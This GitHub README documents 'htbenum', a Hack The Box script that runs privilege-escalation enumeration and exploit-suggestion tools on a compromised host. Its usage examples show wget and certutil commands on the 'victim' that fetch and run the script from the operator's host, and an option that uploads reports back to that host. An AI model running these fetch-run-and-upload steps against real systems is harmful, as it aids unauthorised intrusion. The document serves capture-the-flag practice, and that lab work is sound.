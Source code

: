 # htbenum
*An enumeration script for Hack The Box*

This script is designed for use in situations where you do not have internet access on a target host and would like to run enumeration and exploit suggestion scripts, such as Hack The Box. 

![](screenshot01.png)

### Features
* Multiple enumeration scripts, including:
    * [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration/)
    * [LinEnum](https://github.com/rebootuser/LinEnum/)
    * [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/)
    * [uptux](https://github.com/initstring/uptux)
    * [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
    * [PEASS-ng](https://github.com/peass-ng/PEASS-ng)
    * [Privesc](https://github.com/enjoiz/Privesc)
    * [WindowsPrivEscCheck](https://github.com/pentestmonkey/windows-privesc-check/)
    * [JAWS](https://github.com/411Hall/JAWS/)
    * [Sherlock](https://github.com/rasta-mouse/Sherlock)
* 2 different exploit suggestion tools, including:
    * [linux-soft-exploit-suggester](https://github.com/belane/linux-soft-exploit-suggester)
    * [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* Builtin webserver for hosting tools and uploading completed reports
* Automatic tool download and update feature
* Custom directory option, for when you know you have access to a specific directory (default is /tmp)
* Interactive menu lets you choose whether to run only enumeration, only expoit suggestion, or both
* Checks for Python 2 and 3 and lets you know which scripts will be skipped if Python is missing
* Checks if certutil or Powershell is installed for Windows host enumeration

TODO: Complete Windows Enumeration Automation

### Usage
```
./htbenum.sh [-u] -i IP -p port [-o directory] [-w] [-r]

Example:
         Host machine: root@kali:~/htbenum# ./htbenum.sh -u
         Host machine: root@kali:~/htbenum# ./htbenum.sh -i 10.10.14.1 -p 80 -w
         Victim machine: www-data@victim:/tmp$ wget http://10.10.14.1:80/htbenum.sh
         Victim machine: www-data@victim:/tmp$ chmod +x ./htbenum.sh
         Victim machine: www-data@victim:/tmp$ ./htbenum.sh -i 10.10.14.1 -p 80 -r

 Parameters:
         -h - View help and usage.
         -i IP - IP address of the listening web server used for upload and download.
         -p port - TCP port of the listening web server used for upload and download.
         -o directory - Custom download and report creation directory (default is /tmp).
         -w - Start builtin web server for downloading files and uploading reports.
         -u - Update to the latest versions of each tool, overwriting any existing versions.
         -r - Upload reports back to the host machine web server (must support PUT requests).
```


To use htbenum, clone the repo and run the script with the `update` parameter on your local machine. This will download and update all the needed scripts from the internet (Github) and place them in the same directory as `htbenum.sh`:
```
root@kali:~# git clone https://github.com/SolomonSklash/htbenum
root@kali:~# cd htbenum
root@kali:~/htbenum#  ./htbenum.sh -u
_   _ ___________ _____ _   _ _   ____  ___
| | | |_   _| ___ \  ___| \ | | | | |  \/  |
| |_| | | | | |_/ / |__ |  \| | | | | .  . |
|  _  | | | | ___ \  __|| . ` | | | | |\/| |
| | | | | | | |_/ / |___| |\  | |_| | |  | |
\_| |_/ \_/ \____/\____/\_| \_/\___/\_|  |_/

By Solomon Sklash - solomonsklash@0xfeed.io 

[i] Updating all tools...
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh [31859/31859] -> "lse.sh" [1]
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh [46476/46476] -> "linenum.sh" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py [25304/25304] -> "linuxprivchecker.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/initstring/uptux/master/uptux.py [29853/29853] -> "uptux.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py [12614/12614] -> "suid3num.py" [1]
2019-11-25 17:54:57 URL:https://raw.githubusercontent.com/belane/linux-soft-exploit-suggester/master/linux-soft-exploit-suggester.py [13886/13886] -> "les-soft.py" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/offensive-security/exploit-database/master/files_exploits.csv [5669905/5669905] -> "files_exploits.csv" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh [82214/82214] -> "les.sh" [1]
[i] Update complete!
root@kali:~/htbenum#  
```

Then, start the builtin web server to host the tools and receive the completed reports. The server requires Python 3. You can use you own web server to host the tools, but it will need to support PUT requests for the report uploads.

```
root@kali:~/htbenum# ./htbenum.sh -i 10.10.14.1 -p 80 -w
```

For Linux, upload the `htbenum.sh` script to your target machine, make it executable, and run it with the IP and port of your host machine, with an optional directory for downloading files and writing report output. You can also optionally upload the reports back to the host machine. For example:
```
www-data@htb:/tmp$ wget http://10.10.99.100/htbenum.sh -O /tmp/htbenum.sh
www-data@htb:/tmp$ chmod +x ./htbenum.sh
www-data@htb:/tmp$ ./htbenum.sh -i 10.10.14.1 -p 80 -r
```
For Windows, upload the `htbenum.bat` script to your target machine, and run it with the IP and port of your host machine. For example:
```
C:\Windows\Temp>certutil -urlcache -split -f 'http://10.10.99.100/htbenum.bat htbenum.bat'
C:\Windows\Temp>.\htbenum.bat 10.10.14.1 80
```

Each tool will send its output to a report file in the same directory as the `htbenum.sh` script, or whatever directory is specified by the `-d` parameter.
